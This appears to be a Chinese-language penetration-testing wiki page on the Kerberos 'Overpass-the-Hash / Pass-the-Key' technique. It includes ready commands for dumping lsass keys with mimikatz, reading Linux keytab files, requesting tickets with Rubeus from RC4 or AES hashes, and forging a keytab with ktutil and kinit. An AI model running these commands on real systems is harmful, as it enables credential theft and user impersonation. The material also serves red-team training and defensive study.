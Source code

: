 



#### Over The Hash / Pass the Key

正如你所注意到的，在请求TGT时，用户不需要使用其密码，而是使用其Kerberos密钥。因此，如果攻击者能够窃取Kerberos密钥（NT哈希或AES密钥），就可以用它来代表用户请求TGT，而不需要知道用户密码

通常在Windows中，Kerberos密钥被缓存在lsass进程中，它们可以通过使用`mimikatz sekurlsa::ekeys`命令来检索。你也可以用procdump、sqldumper或其他工具转储lsass进程，然后用mimikatz离线提取密钥。

在 Linux 的情况下，Kerberos 密钥被存储在 [keytab 文件](https://web.mit.edu/kerberos/krb5-devel/doc/basic/keytab_def.html)中，以便用于 Kerberos 服务。keytab 文件通常可以在 `/etc/krb5.keytab` 中找到， 或在环境变量 `KRB5_KTNAME` 或 `KRB5_CLIENT_KTNAME` 中指定的值， 或在 Kerberos 配置文件 `/etc/krb5.conf `中指定。

找到钥匙表后， 您可以将其复制到本地机器上， 并/或用 klist 或 [cerbero](https://gitlab.com/Zer1t0/cerbero/#list) 列出其钥匙。

```bash
klist -k -Ke
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   1 r2d2@contoso.local (DEPRECATED:arcfour-hmac)  (0xc49a77fafad6d3a9270a8568fa453003)
```



一旦拥有了Kerberos密钥，就可以在Windows中通过使用[Rubeus asktgt](https://github.com/GhostPack/Rubeus#asktgt)命令来请求一个TGT

```powershell
#PTH 请求RC4加密的tgt
Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt

#pth 请求一个aes256加密的tgt并打开一个该用户的CMD窗口
Rubeus.exe asktgt /user:dfm.a /domain:testlab.local /aes256:e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27 /createnetonly:C:\Windows\System32\cmd.exe
```





在linux中

```bash
#使用ktutil创建keytab文件
ktutil

#在 ktutil 提示符下，键入带有“principals”（-p）标志的“add entry”（添加）命令。指定用户和 FQDN 的全大写版本。然后是“KVNO”（-k 1），这是密钥编号。最后是加密类型，即 NTLM 哈希的 rc4-hmac：
ktutil: addent -p uberuser@CORP.SOMEWHATREALNEWS.COM -k 1 -key -e rc4-hmac

#回车后，系统会提示输入 rc4-hmac (NTLM) 哈希：
Key for uberuser@CORP.SOMEWHATREALNEWS.COM (hex): 88e4d9fabaecf3dec18dd80905521b29

#然后我们将keytab文件写入磁盘并退出ktutil
ktutil: wkt /tmp/a.keytab
ktutil: exit

#使用创建的 keytab 文件创建一个 kerberos 票证。
kinit -V -k -t /tmp/a.keytab -f uberuser@CORP.SOMEWHATREALNEWS.COM

```
